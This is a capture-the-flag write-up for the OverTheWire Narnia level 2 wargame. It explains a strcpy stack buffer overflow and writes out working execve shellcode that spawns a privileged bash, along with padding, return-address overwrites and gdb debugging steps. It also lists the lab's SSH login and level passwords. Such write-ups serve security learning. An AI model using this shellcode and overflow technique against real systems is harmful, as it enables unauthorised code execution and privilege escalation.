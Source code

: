 # Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
    ```

2. padding is: 
    ```
    PADDING=$(perl -e 'print "A"x(128-33+4)')
    ```

3. what is the address of the top of the stack?
    
    #TODO: continue with gdb
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING))
    ```
    ```
    disas main
    ```
    
    ![](0.png)

    Register `eax` contain the address to the shell code.

    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](1.png)

    `0xffffd408` is the pushed `eax` for the `printf`. Actualy this is the address for the shellcode.This is the address we want it to overwrite the original value back. `0xf7c21500` this is the return value **from** the main. Let's overwrite it:
    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\x08\xd4\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](2.png)

    The second address indicates that we managed to hit the right place. But the first address indicates that when we added 4 bytes to the input, for some reason the addresses changed a bit. So we will do everything the same again, but the address of the shellcode will now be `0xffffd3f8`:

    ```
    exit
    ```
    ```
    SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    b *0x080491d5
    ```
    ```
    r
    ```
    ```
    x/40x $sp
    ```

    ![](3.png)

    Now let's try to run the program inside the gsb without any break point:

    ```
    exit
    ```
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    ```
    r
    ```
    
    ![](4.png)

    But still no permissions. Let's now try running outside of gdb:

    ```
    exit
    ```
    ```
    exit
    ```
    ```
    ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
    ```
    
    ![](5.png)

    This means that outside of gdb it doesn't work, but inside it it does. very strange. I tried to find answers to this, like [here](https://stackoverflow.com/questions/39187195/stack-buffer-overflow-works-on-gdb-doesnt-outsite-it), but nothing helped..<br />
    
    Are the addresses in gdb different from running without gdb?<br />
    Which leaves me with the same question - what is the address of the shellcode?<br />
    Or maybe there is another matter here?


After many attempts, I gave up and started reading a [solution](https://mcpa.github.io/narnia/wargame/pwnable/overthewire/2015/10/10/narnia02/).
The only thing I took from him (without understanding yet, sorry..) is that for some reason the beginning also needs to be padded. and change the address accordingly. When I tried it, it worked.

And hence:

```
PADDING1=$(perl -e 'print "A"x64')
```
```
SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```
```
PADDING2=$(perl -e 'print "A"x(128-33+4-64)')
```
```
SHELLCODE_ADDR=$'\x38\xd4\xff\xff'
```
```
./narnia2 $(echo -e $(echo -e $PADDING1)$(echo -e $SHELLCODE)$(echo -e $PADDING2)$(echo -e $SHELLCODE_ADDR))
```

## Password for the next level:
```
8SyQ2wyEDU
```

## Appendix
At this point I have the password the next level, but I still don't know the difference between running **inside** `gdb` and running **outside**. To understand this better, I went to see other solutions of this challenge, for example [here](https://www.youtube.com/watch?v=FMzOEIQouJk).
